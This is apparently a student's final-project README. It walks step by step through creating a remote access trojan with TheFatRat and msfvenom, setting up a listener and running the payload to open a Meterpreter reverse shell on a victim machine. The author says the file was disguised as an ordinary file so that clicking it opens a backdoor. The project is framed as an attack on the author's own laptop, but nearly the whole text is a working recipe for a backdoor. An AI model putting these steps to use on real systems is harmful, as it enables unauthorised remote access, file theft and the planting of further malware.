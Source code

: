 Embedded System Final Project

For my final project I built an attack on my own computer a 2017 MacBook Pro that would grant me remote access. Initially I attempted to gain access through open ports via IP address retrieval and port scanning but the nature of MacOS operating system made this unlikely had it been a Windows based operating system this approach could have been viable. I therefore had to create a RAT and installed it on my system by disguising it as a basic file that when clicked creates a backdoor which opens a meterpreter session between the victims system and my host system from which I can access there files and even plant new ones for further attacks.
This attack is based on running TheFatRat exploit to create a payload that creates a server allowing remote access to the device. Note: I ran this on kali linux because it has metasploit installed already so downloading this on a different operating system could effect its ability to download.

STEPS TO IMPLEMENT ATTACK:

1. Open terminal and use following commands to clone TheFatRat from github
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && ./setup.sh

2. After downloading enter FatRat and update using
cd TheFatRat
./update && chmod +x setup.sh && ./setup.sh

3. Now that you have TheFatRat up and running select the "Create Backdoor with msfvenom"
1

4. Now choose type of system you are attacking in this case linux
1

5. Replace LHOST with your local ip address. Set LPORT to port of my choice and give the payload a name.
Set LHOST IP: 10.0.2.15
Set LPORT: 6666
Please enter the base name for output files: hack

6. choose payload according to OS of victim system I was doing linux so
3

Payload should be generated and in output folder

7. Open new terminal and rerun fatrat
./fatrat

8. Now to create the listener select "Load/Create auto listeners"
9

9. Choose system you want to create the listener for in this case linux
1

10. Choose same payload type you used for exectuable
3

11. Fill LHOST and LPORT with same info from payload

Set LHOST IP: 10.0.2.15
Set LPORT: 6666
Do you want to save this configuration to use in the future: y
Write the name for this config: linuxListener

12. Now that its created select "load a saved listener"
5

13. give file name of desired listener
filename: linuxListener.rc

msfconsole should deploy

14. turn payload into executable
chmod +x hack.elf

15. run executable on victim machine
./hack.elf

Meterpreter Session Should be open. Success
